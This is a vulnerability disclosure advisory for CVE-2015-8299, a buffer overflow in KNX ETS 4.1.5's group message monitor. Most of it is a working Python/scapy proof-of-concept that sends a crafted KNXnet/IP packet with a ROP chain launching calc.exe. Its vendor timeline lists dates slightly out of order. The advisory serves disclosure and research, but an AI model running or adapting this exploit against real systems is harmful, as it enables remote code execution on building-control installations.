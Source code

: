 # Remote code execution vulnerability in the KNX management software ETS #

## Vulnerability Overview ##

* **Identifier**            : knAx_20150101
* **Type of Vulnerability** : Buffer overflow vulnerability
* **Software/Product Name** : ETS (Engineering Tool Software)
* **Vendor**                : KNX Association
* **Affected Versions**     : ETS 4.1.5 (Build 3246)
                            : *no other versions tested*
* **Fixed in Version**      : *unknown*
* **CVE ID**                : CVE-2015-8299
* **Impact**                : Critical

## Vulnerability Description ##

The vulnerability is caused by a buffer overflow in a memcpy
operation when parsing specailly crafted KNXnet/IP packets in the
Group messages monitor (aka. Falcon). An according proof-of-concept
exploit which was tested on an affected ETS version installed on a
Windows XP SP3 can be found below. The proof-of-concept exploit
generates the UDP packet which triggers the vulnerability and should
at least crash the application (it requires python and scapy to run).

## Proof-of-Concept ##

Since this is just a PoC the ROP chain was not carefully selected and
might require adaptation to reproduce the desired results on your system.

`knAx.py`:

```python
#!/usr/bin/env python
"""  ETS4 buffer overflow exploit PoC

This is a Proof-of-Concept (PoC) remote exploit of a ETS4 which is
currently running the monitoring software for group messages aka.
"Groupenmonitor". This feature of the ETS4 runs an executable called
"Falcon.exe" which is vulnerable to a buffer overflow.

The vulnerable function gets called at:
0043C994 call    overflow_43C743
This function, which is responsible for the overflow, is located at 0x43c743.
The "memcpy" which produces the overflow gets called at:
0043C931 call    memcpy

Vulnerable version:
    ETS 4.1.5 (Build 3246)
    Stammdaten: Version 57, Schema 1.1
    registry key: "NET Framework Setup"
        v2.0.50727 -version 2.2.30729
        v4 -version 4.0.30319

ETS4.exe
    LegalCopyright: Copyright \xa9 2010-2012 KNX Association cvba, Brussels, Belgium
    Assembly Version: 4.1.3246.36180
    InternalName: ETS4.exe
    FileVersion: 4.1.3246.36180
    CompanyName: KNX Association cvba
    Comments: ETS4 Application
    ProductName: ETS4
    ProductVersion: 4.1.3246.36180
    FileDescription: ETS4
    OriginalFilename: ETS4.exe

Falcon.exe
    LegalCopyright: Copyright (C) 2000-2008 KNX Association, Brussels, Belgium
    InternalName: Falcon
    FileVersion: 2.0.5184.4346
    CompanyName: KNX Association
    SpecialBuild: 2011.01.16
    LegalTrademarks: KNX Association
    OLESelfRegister:
    ProductVersion: 2.0
    FileDescription: Falcon
    OriginalFilename: Falcon.ex

Tested on:
    Windows XP SP3 32bit

This exploit uses return-oriented-programming techniques. The gadgets used for ROP are:
ole32.dll:"0x774fdb5b","33c0c3","0x774fdb5b: xor eax, eax | 0x774fdb5d: ret | "
ole32.dll:"0x77550f6f","83c064c3","0x77550f6f: add eax, 64h | 0x77550f72: ret | "
ole32.dll:"0x774ff447","03c4c24e77","0x774ff447: add eax, esp | 0x774ff449: ret 774eh | "
user32.dll:"0x7e467666","94c3","0x7e467666: xchg esp, eax | 0x7e467667: ret | "

The exploit requires root privelages to send the crafted packet and
the scapy python module!

PoC and vuln. discovery
by aljosha judmayer
"""
from struct import pack,unpack
from scapy.all import *

# --- variables ---
ip_dest = "224.0.23.12"
udp_dport = 3671
udp_sport = 3671
sys_iface = "vboxnet0" # <= CHANGE ME! to external network interface
# ---
knxhdr="\x06\x10\x05\x30\x01\xb2"
knxmsg="\xac\x01\x81\xa9\xe3\xac\xcb\x44\xff\xa2\x67\xcd\x03\x6f\x05\xe4\x58\x19\xae\x65\x1b\x14\x38\x4d\x83\x60\x06"
padding="\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41"

def test():
    """ this should terminate the Falcon.exe process """
    exit="\xfa\xca\x81\x7c" # ExitProcess 0x7c81cafa, or 0xffffffff for seg fault

    sendpayload(knxhdr + knxmsg + padding + exit)
    return

def exploit():
    """
    This constructs a ROP payload and sends it.
    Because of stack manipulation after the overflow we need to jump
    over some bytes. Therefore the esp is increased.
    """

    eip  = pack("<L",0x774fdb5b)    # xor eax,eax    ;zero out register
    eip += pack("<L",0x77550f6f)    # add eax,64h    ;add jump distance
    eip += pack("<L",0x774ff447)    # add eax,esp    ;add the current position of esp
    eip += pack("<L",0x7e467666)    # xchg esp,eax   ;load the new esp address
    # --- padding ret-sled as NOP-sled
    eip += pack("<L",0x77550f72)*28 # ret            ;use ret as nop
    # --- str chunk 1
    eip += pack("<L",0x7752f82a)    # pop ecx        ;load string
    eip += "calc"                   # "calc"         ;string  
    eip += pack("<L",0x774faf34)    # pop eax        ;load dst. address
    eip += pack("<L",0x7ffdf8f4)    # f4f8fd7f       ;dst address
    eip += pack("<L",0x77593502)    # mov [eax], ecx ;copy ecx to [eax]
    # --- str chunk 2
    eip += pack("<L",0x7752f82a)    # pop ecx        ;load string
    eip += ".exe"                   # ".exe"         ;string  
    eip += pack("<L",0x774faf34)    # pop eax        ;load dst. address
    eip += pack("<L",0x7ffdf8f4+4)  # f4f8fd7f +4  ;dst address + 4
    eip += pack("<L",0x77593502)    # mov [eax], ecx ;copy str. to dst.

    # --- call WinExec()
    eip += pack("<L",0x7c8623ad)    # address of WinExec()
    eip += pack("<L",0x7c81cafa)    # ret after WinExec(), into ExitProcess 0x7c81cafa
    eip += pack("<L",0x7ffdf8f4)    # address of string

    #DEBUG
    #ostr = "\\x".join("{:02x}".format(ord(c)) for c in eip)
    #print "\\x%s" %ostr

    sendpayload(knxhdr + knxmsg + padding + eip)
    return


def sendpayload(payload):
    """ send scapy udp payload """
    pkt=Ether(dst="01:00:5e:00:17:0c")/IP(dst=ip_dest)/UDP(dport=udp_dport,sport=udp_sport)/payload
    #pkt.show2() #DEBUG
    hexdump(pkt)

    sendp(pkt, iface=sys_iface)

    return

def sendpkt(pkt):
    """ send scapy pkt on layer 2, no auto stuff """
    #pkt.show2() #DEBUG
    hexdump(pkt)

    sendp(pkt, iface=sys_iface)

    return

def main():
    exploit()
    return 0

if __name__ == "__main__":
    sys.exit(main())
```

## Timeline ##

* `2013-10-11` identification of vulnerability
* `2013-10-??` 1st vendor contact, no-reply of vendor on issue
* `2013-07-30` 2nd vendor contact, no-reply of vendor on issue
* `2013-10-06` 3rd vendor contact, no-reply of vendor on issue
* `2015-07-14` contact cve-request@mitre.
* `2015-11-23` [disclosed](http://seclists.org/fulldisclosure/2015/Nov/89)

## References ##

* Information on ETS: <http://www.knx.org/de/knx-tools/ets4/einfuehrung/>
* KNX Association: <http://www.knx.org/>

## Credits ##

* Aljosha Judmayer ([SBA Research](https://www.sba-research.org/))
